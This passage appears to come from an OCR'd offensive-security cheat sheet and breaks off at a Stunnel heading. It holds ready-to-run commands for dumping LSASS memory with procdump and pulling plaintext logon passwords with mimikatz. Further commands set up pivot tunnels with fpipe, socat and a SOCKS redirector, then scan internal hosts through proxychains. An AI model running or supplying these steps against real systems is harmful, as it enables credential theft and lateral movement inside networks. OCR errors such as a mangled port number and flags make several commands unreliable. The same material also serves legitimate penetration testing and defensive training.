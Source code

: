 ```text
procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords f
```

## Extract information in memory using mimikatz plugin in volatility

```text
volatility — plugins=/usr/share/volatility/plugins — profile=Win7SP0x86 -f halomar.dmp mimikatz
````

## Tunnel

### Fpipe - receiving information from port 1234 and transferring to port 80 2.2.2.2

```text
fpipe.exe -l 1234 -r 80 2.2.2.2
```

### Socks.exe - Intranet scanning in Socks proxy

```text
On redirector (1.1.1.1):
     socks.exe -i1.1.1.1 -p 8C80

Attacker:
Modify /etc/proxjchains.conf:
Comment out: #proxy_dns
Comment out: #socks4a 127.0.0.1 9050
Add line: socks4 1.1.1.1 8080
Scan through socks proxy:
     proxychains nmap -PN -vv -sT -p 22,135,139,445 2.2.2.2
```

### Socat - receiving information from port 1234 and transferring to port 80 2.2.2.2

```text
socat TCP4:LISTEN:1234 TCP4:2.2.2.2:80
```

### Create ssh without ssh service

```text
./socat TCP-LISTEN:22,fork,reuseaddr TCP:172.10.10.11:22
```

### Stunnel - ssl encapsulated in nc tunnel \(Windows & Linux\) \[8\]

